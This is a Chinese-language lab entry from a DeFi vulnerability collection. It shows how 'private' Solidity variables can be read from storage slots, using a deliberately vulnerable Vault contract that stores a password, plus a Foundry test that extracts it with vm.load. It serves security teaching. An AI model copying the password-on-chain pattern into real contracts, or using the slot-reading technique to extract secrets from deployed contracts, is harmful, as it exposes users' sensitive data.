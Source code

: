 # 私有数据 
[Privatedata.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Privatedata.sol)  
**名称：** 私有数据泄露  

**描述：**  
Solidity将合约中定义的变量存储在插槽中。每个插槽最多可容纳32字节或256位。存储在链上的所有数据，无论是公有的还是私有的，都可以读取，因此可以通过预测私有数据所在的内存槽从Vault合约中读取私有数据。  
如果在生产环境中使用Vault合约，恶意行为者可能会采用类似的技术来访问敏感信息，例如用户密码。  

**缓解建议：**  
避免将敏感数据存储在链上。   

**参考**  
https://quillaudits.medium.com/accessing-private-data-in-smart-contracts-quillaudits-fe847581ce6d  



**Vault合约：**  
```
contract Vault {
    // 插槽 0
    uint256 private password;

    constructor(uint256 _password) {
        password = _password;
        User memory user = User({id: 0, password: bytes32(_password)});
        users.push(user);
        idToUser[0] = user;
    }

    struct User {
        uint id;
        bytes32 password;
    }

    // 插槽 1
    User[] public users;
    // 插槽 2
    mapping(uint => User) public idToUser;

    function getArrayLocation(
        uint slot,
        uint index,
        uint elementSize
    ) public pure returns (bytes32) {
        uint256 a = uint(keccak256(abi.encodePacked(slot))) +
            (index * elementSize);
        return bytes32(a);
    }
}
```  
**如何测试：**  
forge test --contracts src/test/Privatedata.sol-vvvv  
```
    // testReadprivatedata()的函数声明，这是一个公共函数。
function testReadprivatedata() public {
        
    // 创建带有参数“123456789”的Vault合约的新实例。
    VaultContract = new Vault(123456789);

    // 使用Vault合约地址和位置（0）调用`vm.load`函数
    // “vm.load”函数从指定合约的存储槽中加载数据。
    // 在这里，读取合约的第0个存储槽。在Solidity中，存储布局从插槽0开始。
    bytes32 leet = vm.load(address(VaultContract), bytes32(uint256(0)));

    // 记录第一个存储槽的值，将bytes32值转换为uint256。
    console.log(uint256(leet));

    // 再次调用“vm.load”函数，但这一次，它使用来自VaultContract合约的“getArrayLocation”方法来计算特定数组元素的存储槽。
    // 这是因为以太坊中的数组不是存储在连续的块中，而是对每个元素进行哈希处理以找到其位置。
    // 在这里，假设Vault合约中有一个数组，并且您正在尝试访问插槽1中的数据（基于您的参数）
    bytes32 user = vm.load(
        address(VaultContract),
        VaultContract.getArrayLocation(1, 1, 1)
    );
        
    // 记录从合约存储读取的特定数组元素的值，将其从 bytes32转换为uint256。
    console.log(uint256(user));
}
```  
**红色框：** 读取私有数据成功。  
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fbfa76e84-7cd5-45ce-8b04-9032673ab3af%2FUntitled.png?table=block&id=09c2a521-e269-4e04-8e81-7516e5c8ac58&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2) 